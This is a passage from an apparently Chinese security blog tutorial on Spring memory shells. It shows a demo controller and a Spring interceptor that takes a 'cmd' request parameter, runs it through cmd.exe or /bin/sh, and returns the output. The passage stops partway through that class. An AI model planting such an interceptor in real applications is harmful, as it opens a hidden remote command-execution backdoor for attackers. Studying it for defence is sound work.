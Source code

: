 ![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image/image-20240118010538774.png)

这里给我们准备了一个示例，我们可以直接跑起来：

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image/image-20240118011103790.png)

### 2.10.1 编写一个简单的Spring Controller

```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class TestController {
    @ResponseBody
    @RequestMapping("/")
    public String test(){
        return "hello world";
    }
}
```

非常地简单：

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image/image-20240118011631123.png)

### 2.10.2 编写一个简单的Spring Interceptor

`TestInterceptor.java`：

```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String output = "";
                ProcessBuilder processBuilder;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    processBuilder = new ProcessBuilder("cmd.exe", "/c", cmd);
                }else{
                    processBuilder = new ProcessBuilder("/bin/sh", "-c", cmd);
                }
                java.util.Scanner inputScanner = new java.util.Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                output = inputScanner.hasNext() ? inputScanner.next(): output;
                inputScanner.close();
                writer.write(output);
                writer.flush();
                writer.close();
            } catch (Exception ignored){}
            return false;
        }
```